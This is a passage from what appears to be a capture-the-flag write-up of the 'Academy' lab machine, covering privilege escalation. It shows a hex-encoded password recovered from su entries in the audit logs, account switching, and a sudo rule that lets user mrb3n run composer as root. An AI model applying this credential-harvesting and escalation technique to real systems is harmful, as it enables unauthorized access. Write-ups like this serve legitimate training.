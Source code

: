 We can connect with this password on the `cry0l1t3` account.

# Privesc

## cry0l1t3

A password encrypted in `hexadecimal` is found in a `log file`.

```bash
$ cat /var/log/audit/* | grep 'comm="su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

![alt text](Writeup/Academy/hex.png)

We can connect with this password on the `mrb3n` account.

## mrb3n

`mrb3n` can execute `/usr/bin/composer` as root.

```bash
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```
